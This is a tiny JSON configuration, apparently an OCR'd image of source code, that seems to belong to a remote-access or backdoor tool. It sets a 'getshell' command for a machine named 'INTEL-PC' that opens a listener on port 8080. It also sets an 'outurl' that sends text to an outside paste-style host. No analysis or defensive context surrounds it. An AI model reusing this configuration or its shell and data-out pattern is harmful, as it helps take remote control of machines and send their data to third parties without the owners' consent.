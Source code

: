 {
    "INTEL-PC": {
        "getshell": "l t 127.0.0.1 8080~open"
    },
    "all": {
        "outurl": "http://kl1p.com/qwokc?save=true&id=&type=plain&name=qwokc&nid=&param=&client=web&text="
    }
}
